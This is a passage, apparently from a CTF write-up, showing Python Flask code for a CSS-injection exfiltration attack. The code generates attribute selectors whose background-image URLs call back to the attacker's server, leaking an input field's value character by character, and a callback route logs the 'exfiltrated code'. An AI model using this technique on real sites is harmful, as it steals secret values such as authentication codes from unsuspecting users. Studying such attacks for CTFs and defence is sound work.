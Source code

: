 ```python
        callback = url_for(".h1_2006_callback", session=session, pos=pos, char=char, _external=True, _scheme='https')
        return f'input[name="{name}"][value="{value}"]{{background-image: url({callback});}}'

    selectors = [selector(pos, char) for pos in range(NUM_CHARS) for char in ALLOWED_CHARS]

    css = '\n'.join(selectors + [original_css])

    return Response(css, mimetype='text/css')


@blueprint.route('/h1-2006-callback/<session>/<int:pos>/<char>')
def h1_2006_callback(session: str, pos: int, char: str):
    global code_chars

    chars: List = code_chars[session]
    chars[pos] = char

    if None not in chars:
        code = ''.join(chars)
        logger.info(f"[session {session}] Exfiltrated code: {code}")

    return '', 204  # 204 No Content, i.e. just empty response


def escape_css_selector(selector: str) -> str:
    return selector \
        .replace("\\", "\\\\") \
        .replace("!", "\\!") \
        .replace("\"", "\\\"") \
        .replace("#", "\\#") \
        .replace("$", "\\$") \
        .replace("%", "\\%") \
        .replace("&", "\\&") \
        .replace("'", "\\'") \
        .replace("(", "\\(") \
        .replace(")", "\\)") \
        .replace("*", "\\*") \
        .replace("+", "\\+") \
        .replace(",", "\\,") \
        .replace("-", "\\-") \
        .replace(".", "\\.") \
        .replace("/", "\\/") \
        .replace(":", "\\:") \
        .replace(";", "\\;") \
        .replace("<", "\\<") \
        .replace("=", "\\=") \
        .replace(">", "\\>") \
        .replace("?", "\\?") \
        .replace("@", "\\@") \
        .replace("[", "\\[") \
        .replace("]", "\\]") \
        .replace("^", "\\^") \
        .replace("`", "\\`") \
        .replace("{", "\\{") \
        .replace("|", "\\|") \
        .replace("}", "\\}") \
        .replace("~", "\\~")

```
Let's break it down.
